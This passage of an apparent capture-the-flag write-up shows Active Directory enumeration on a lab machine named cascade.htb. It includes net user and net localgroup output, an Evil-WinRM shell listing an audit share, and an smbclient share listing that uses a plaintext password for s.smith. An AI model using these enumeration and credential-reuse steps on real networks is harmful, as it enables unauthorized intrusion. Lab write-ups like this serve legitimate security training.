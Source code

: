 ```shell
Home directory
Last logon                   1/29/2020 12:26:39 AM

Logon hours allowed          All

Local Group Memberships      *Audit Share          *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```
hm `Audit Share` is not a common micsoroft group, lets inspect it first:

#### Local group details
```shell
net localgroup "Audit Share"
```

```shell
Alias name     Audit Share
Comment        \\Casc-DC1\Audit$

Members

-------------------------------------------------------------------------------
s.smith
The command completed successfully.
```
The comment `\\Casc-DC1\Audit$` is useful, we can now see what does this share contain by browsing through the directories: 
```shell
*Evil-WinRM* PS C:\Shares\audit> ls

Directory: C:\Shares\audit
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/28/2020   9:40 PM                DB
d-----        1/26/2020  10:25 PM                x64
d-----        1/26/2020  10:25 PM                x86
-a----        1/28/2020   9:46 PM          13312 CascAudit.exe
-a----        1/29/2020   6:00 PM          12288 CascCrypto.dll
-a----        1/28/2020  11:29 PM             45 RunAudit.bat
-a----       10/27/2019   6:38 AM         363520 System.Data.SQLite.dll
-a----       10/27/2019   6:38 AM         186880 System.Data.SQLite.EF6.dll
```

lets find them also through smbclient:
```shell
smbclient -L cascade.htb -U s.smith%sT333ve2
```
we want to download the `Audit$` share according to our previous findings
```shell
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
Audit$          Disk      
C$              Disk      Default share
Data            Disk      
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
print$          Disk      Printer Drivers
SYSVOL          Disk      Logon server share 
```
